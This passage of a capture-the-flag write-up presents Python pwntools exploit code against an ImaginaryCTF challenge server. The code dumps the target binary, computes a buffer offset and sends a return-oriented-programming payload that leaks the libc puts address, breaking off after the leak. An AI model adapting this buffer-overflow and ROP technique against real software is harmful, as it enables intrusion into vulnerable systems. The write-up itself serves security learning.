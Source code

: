 
## Launching the exploit
Finall version of the exploit is: 

[![asciicast](https://asciinema.org/a/430559.svg)](https://asciinema.org/a/430559)

Exploit code:
```py
from pwn import *
import base64
import struct
import os
server = remote("chal.imaginaryctf.org", 42020)



# get software dump
server.recvuntil("---------------------------BEGIN  DATA---------------------------")
server.recvline()
binary_base64 = server.recvline()
binary_hex = base64.b64decode(binary_base64).hex().upper()




# save data to file
exploit_binary = open('2hack', 'wb')
bytes_object = bytes.fromhex(binary_hex)
exploit_binary.write(bytes(bytes_object))
exploit_binary.close()
binary = ELF('./2hack')
context.binary = binary
os.chmod("./2hack", 0o777)




# scan with pattern
pattern_prefix = "4889E54881EC"
index = binary_hex.index(pattern_prefix) + 12
array_size = int(str(binary_hex[index + 4] + binary_hex[index + 5] + binary_hex[index + 2] + binary_hex[index + 3] + binary_hex[index] + binary_hex[index + 1]), base=16)
print("Array size: ", array_size)
padding = array_size + 8



# creating first payload
payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    #pop rdi; ret
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(0x0000000000401142)    # main
server.sendline(payload)
print("useless line: ", server.recvline())
print("useless line: ", server.recvline())





puts_addr = server.recvline()            # recv leaked puts addr
print("raw puts_addr", puts_addr)
```